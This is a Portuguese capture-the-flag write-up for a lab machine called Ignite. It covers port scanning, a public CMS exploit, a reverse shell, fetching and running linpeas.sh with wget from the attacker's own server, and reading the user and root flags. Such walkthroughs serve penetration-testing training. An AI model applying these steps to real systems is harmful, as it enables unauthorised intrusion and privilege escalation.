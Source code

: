 # Ignite

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
rustscan -a 10.10.150.210 
```
![image](https://github.com/lufffe/Writeups/assets/90646635/b2c630ed-fcac-4eb8-9815-9c6b40c24823)

![image](https://github.com/lufffe/Writeups/assets/90646635/b35e5a08-e2c8-449c-9a06-2976a8c13dfc)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 80 10.10.150.210
```
![image](https://github.com/lufffe/Writeups/assets/90646635/79c1326b-b130-42bc-bf35-41e0372c82ac)

* ### Verificando o http.
![image](https://github.com/lufffe/Writeups/assets/90646635/7a1201b7-15b1-4997-b072-5486c361e112)

* ### Achando um exploit para o CMS.
![image](https://github.com/lufffe/Writeups/assets/90646635/0a645111-4b03-4c33-a91b-c743430413d7)

https://www.exploit-db.com/exploits/50477

* ### Executando o exploit em Python.
![image](https://github.com/lufffe/Writeups/assets/90646635/a8a7494f-09af-4722-8cd3-e7cbe9632fbb)

* ### Pegando o Shell Reverso.
![image](https://github.com/lufffe/Writeups/assets/90646635/b25d5304-ae15-41f5-a572-96486f144b70)

* ### Flag User.
```bash
cat /home/www-data/flag.txt
```

* ### Escalando previlégio.

* ### Subindo um serivdor em Python para transferir o Linpeas para a maquina.
```bash
python -m http.server
```

* ### Transferindo o linpeas para a maquina.
```bash
$ wget http://[SEU IP]:8000/linpeas.sh
```

* ### Dando permissão de execução e executando.
 ```bash 
chmod +x linpeas.sh
 ```

 ```bash 
$ ./linpeas.sh
 ```

* ### No Linpeas apareceça a senha do root, basta apertas dar um su e por a senha.
 ```bash 
su
 ```

* ### Se ele estiver dando erro, bastar colocar o TTY do proprio Python(PTY), que com certeza pega, como mostrado na imagem.
![image](https://github.com/lufffe/Writeups/assets/90646635/60c75356-abd1-4a7e-9e7c-683c5a7e3827)

* ### Flag Root.
```bash 
cat /root/root.txt
```
